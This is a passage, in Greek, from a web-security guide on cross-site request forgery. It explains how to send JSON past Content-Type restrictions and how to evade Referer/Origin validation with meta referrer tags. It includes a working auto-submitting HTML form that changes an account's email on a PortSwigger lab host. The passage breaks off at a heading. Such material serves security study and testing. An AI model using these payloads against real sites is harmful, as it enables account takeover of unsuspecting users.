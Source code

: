 Όταν προσπαθείτε να στείλετε δεδομένα JSON μέσω ενός POST αιτήματος, η χρήση του `Content-Type: application/json` σε μια HTML φόρμα δεν είναι άμεσα δυνατή. Ομοίως, η χρήση του `XMLHttpRequest` για την αποστολή αυτού του τύπου περιεχομένου ξεκινά ένα αίτημα προετοιμασίας. Παρ' όλα αυτά, υπάρχουν στρατηγικές για να παρακαμφθεί αυτή η περιοριστική κατάσταση και να ελεγχθεί αν ο διακομιστής επεξεργάζεται τα δεδομένα JSON ανεξαρτήτως του Content-Type:

1. **Χρήση Εναλλακτικών Τύπων Περιεχομένου**: Χρησιμοποιήστε `Content-Type: text/plain` ή `Content-Type: application/x-www-form-urlencoded` ορίζοντας `enctype="text/plain"` στη φόρμα. Αυτή η προσέγγιση δοκιμάζει αν το backend χρησιμοποιεί τα δεδομένα ανεξαρτήτως του Content-Type.
2. **Τροποποίηση Τύπου Περιεχομένου**: Για να αποφύγετε ένα αίτημα προετοιμασίας ενώ διασφαλίζετε ότι ο διακομιστής αναγνωρίζει το περιεχόμενο ως JSON, μπορείτε να στείλετε τα δεδομένα με `Content-Type: text/plain; application/json`. Αυτό δεν ενεργοποιεί ένα αίτημα προετοιμασίας αλλά μπορεί να επεξεργαστεί σωστά από τον διακομιστή αν είναι ρυθμισμένος να αποδέχεται `application/json`.
3. **Χρήση Αρχείου SWF Flash**: Μια λιγότερο κοινή αλλά εφικτή μέθοδος περιλαμβάνει τη χρήση ενός αρχείου SWF flash για να παρακαμφθούν τέτοιες περιοριστικές καταστάσεις. Για μια σε βάθος κατανόηση αυτής της τεχνικής, ανατρέξτε σε [αυτή την ανάρτηση](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937).

### Παράκαμψη Ελέγχου Referrer / Origin

**Αποφύγετε την κεφαλίδα Referrer**

Οι εφαρμογές μπορεί να επικυρώνουν την κεφαλίδα 'Referer' μόνο όταν είναι παρούσα. Για να αποτρέψετε έναν περιηγητή από το να στείλει αυτή την κεφαλίδα, μπορεί να χρησιμοποιηθεί η παρακάτω HTML μετα-ετικέτα:
```xml
<meta name="referrer" content="never">
```
Αυτό διασφαλίζει ότι η κεφαλίδα 'Referer' παραλείπεται, πιθανώς παρακάμπτοντας τους ελέγχους επικύρωσης σε ορισμένες εφαρμογές.

**Regexp παρακάμψεις**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

Για να ορίσετε το όνομα τομέα του διακομιστή στη διεύθυνση URL που θα στείλει ο Referrer μέσα στις παραμέτρους μπορείτε να κάνετε:
```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```
### **HEAD μέθοδος παράκαμψης**
